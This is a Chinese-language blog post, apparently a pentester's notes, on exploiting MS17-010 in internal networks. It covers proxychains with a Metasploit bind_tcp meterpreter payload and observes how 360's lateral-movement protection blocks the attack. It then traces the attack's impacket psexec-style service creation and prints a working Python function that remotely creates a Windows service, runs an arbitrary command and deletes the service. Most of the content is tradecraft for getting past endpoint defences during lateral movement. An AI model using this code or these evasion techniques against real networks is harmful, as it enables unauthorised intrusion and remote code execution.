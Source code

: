 ```yaml
---
layout: post
title: MS17-010 

---
```


## 0x01  

内网打Ms17-010比较常见，一般走代理proxychains打正向payload

windows/x64/meterpreter/bind_tcp

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211112173233.png)

经过测试，在不开启360横向渗透防护情况下msf还是会被拦截

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115092540.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211112173749.png)

防护开的比较全的情况下，就开始乱杀了，send smb可以把工具传上去，但是还是被横向渗透防护拦截，

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115104253.png)

测试时候发现，如果源IP不是当前Ip的话，就会被拦截远程攻击，判断攻击方式后查看源代码发现攻击利用的是老impacket包里面的psexec模块，攻击利用方式还是以起服务的方式

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115104536.png)

测试wmihacker查看横向是否拦截，发现360横向渗透防护并不拦截

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115104356.png)

跟踪代码查看是如何创建服务的，调用了CreateService的api

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115141245.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115140742.png)

```python
def service_exec(conn, cmd):
   import random
   import string
   from impacket.dcerpc.v5 import transport, srvs, scmr
   
   service_name = ''.join([random.choice(string.letters) for i in range(4)])

   # use DCE connect SMBTransport
   rpcsvc = conn.get_dce_rpc('svcctl')
   rpcsvc.connect()
   rpcsvc.bind(scmr.MSRPC_UUID_SCMR)
   svcHandle = None
   try:
      print("Opening SVCManager on %s....." % conn.get_remote_host())
      resp = scmr.hROpenSCManagerW(rpcsvc)
      svcHandle = resp['lpScHandle']
      
      # open service
      try:
         resp = scmr.hROpenServiceW(rpcsvc, svcHandle, service_name+'\x00')
      except Exception as e:
         if str(e).find('ERROR_SERVICE_DOES_NOT_EXIST') == -1:
            raise e  # Unexpected error
      else:
         # It exists, remove it
         scmr.hRDeleteService(rpcsvc, resp['lpServiceHandle'])
         scmr.hRCloseServiceHandle(rpcsvc, resp['lpServiceHandle'])
      
      print('Creating service %s.....' % service_name)
      resp = scmr.hRCreateServiceW(rpcsvc, svcHandle, service_name + '\x00', service_name + '\x00', lpBinaryPathName=cmd + '\x00')
      serviceHandle = resp['lpServiceHandle']
      
      if serviceHandle:
         # start service
         try:
            print('Starting service %s.....' % service_name)
            scmr.hRStartServiceW(rpcsvc, serviceHandle)
            # is it really need to stop?
            # using command line always makes starting service fail because SetServiceStatus() does not get called
            #print('Stoping service %s.....' % service_name)
            #scmr.hRControlService(rpcsvc, serviceHandle, scmr.SERVICE_CONTROL_STOP)
         except Exception as e:
            print(str(e))
         
         print('Removing service %s.....' % service_name)
         scmr.hRDeleteService(rpcsvc, serviceHandle)
         scmr.hRCloseServiceHandle(rpcsvc, serviceHandle)
   except Exception as e:
      print("ServiceExec Error on: %s" % conn.get_remote_host())
      print(str(e))
   finally:
      if svcHandle:
         scmr.hRCloseServiceHandle(rpcsvc, svcHandle)

   rpcsvc.disconnect()
```
